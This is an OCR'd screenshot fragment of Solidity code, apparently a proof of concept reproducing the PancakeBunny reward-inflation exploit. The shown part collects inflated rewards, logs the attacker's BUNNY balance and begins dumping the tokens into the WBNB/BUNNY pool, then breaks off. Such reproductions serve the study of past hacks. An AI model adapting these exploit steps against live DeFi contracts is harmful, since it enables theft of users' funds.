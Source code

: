 │         //Collect inflated rewards                                                                                                                                                                                                                    │
│         flip.getReward();                                                                                                                                                                                                                             │
│                                                                                                                                                                                                                                                       │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After collecting rewards, BUNNY balance of attacker:",                                                                                                                                                                                   │
│             IERC20(BUNNY).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(BUNNY).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         //Dump BUNNY                                                                                                                                                                                                                                  │
│         emit log_string("Dumping all BUNNY for WBNB on WBNB+BUNNY pool...");                                                                                                                                                                          │
│         {                                                                                                                                                                                                                                             │
│             uint256 bunnyBalance = IERC20(BUNNY).balanceOf(address(this)) - 1;                                                                                                                                                                        │
│             (uint256 reserve0, uint256 reserve1, ) = WBNBBUNNY.getReserves();                                                                                                                                                                         │
│             uint256 amountIn = bunnyBalance;                                                                                                                                                                                                          │
│             uint256 amountOut = router.getAmountOut(                                                                                                                                                                                                  │
│                 bunnyBalance,                                                                                                                                                                                                                         │
│                 reserve1,                                                                                                                                                                                                                             │
│                 reserve0                                                                                                                                                                                                                              │
│             );                                                                                                                                                                                                                                        │
│                                                                                                                                                                                                                                                       │